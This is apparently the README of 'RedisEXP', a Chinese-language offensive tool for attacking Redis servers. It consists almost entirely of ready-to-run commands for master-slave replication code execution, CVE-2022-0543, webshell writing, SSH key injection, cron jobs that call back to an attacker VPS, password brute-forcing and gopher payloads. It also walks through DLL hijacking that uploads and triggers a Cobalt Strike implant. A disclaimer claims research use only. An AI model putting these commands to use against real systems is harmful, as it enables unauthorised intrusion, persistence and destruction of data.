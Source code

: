 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**详细命令使用： `-h` 查看**


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

执行Redis命令：
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info

加载dll或so执行命令：
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
.\RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec

主从复制命令执行：
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
.\RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
.\RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so

主从复制上传文件：
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md

主动关闭主从复制：
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码

写计划任务：
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
.\RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001

写SSH 公钥：
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
.\RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa

写webshell：
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
.\RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b

CVE-2022-0543：
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令

爆破Redis密码：
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
.\RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f .\pass.txt

生成gohper：
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件

执行 bgsave：
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码

判断文件（需要绝对路径）：
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini

```



关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)
```
config set rdbcompression no
```


1. 具体命令使用 -h 来查看
2. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。
4. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码
4. 有空格的目录或文件同时使用双引号和单引号  `"'a b'"` 





### dll 劫持

利用dbghelp.dll：[https://github.com/P4r4d1se/dll_hijack](https://github.com/P4r4d1se/dll_hijack)

```
上传 cs 马
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp c:\users\public -rf test.exe  -lf artifact.exe

上传 dbghelp.dll 到 redis-server.exe 所在目录进行劫持
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp . -rf dbghelp.dll  -lf dbghelp.dll

触发dll劫持
.\RedisEXP.exe -m bgsave -r 127.0.0.1 -p 6378 -w 123456
```



### 生成gohper

```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```

写shell模板

```
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
```



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



